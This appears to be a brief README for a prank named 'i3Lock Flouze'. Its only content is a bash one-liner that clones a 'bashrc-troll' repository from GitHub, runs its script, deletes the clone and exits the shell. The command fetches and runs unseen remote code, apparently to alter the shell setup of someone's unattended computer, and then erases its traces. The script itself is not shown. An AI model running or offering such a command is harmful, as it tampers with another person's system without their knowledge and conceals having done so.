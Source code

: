 # i3Lock Flouze
Command to execute : 
```bash
git clone https://github.com/Espiiii-debug/bashrc-troll.git && cd bashrc-troll && bash script && cd .. && rm -rf bashrc-troll/ && exit
```
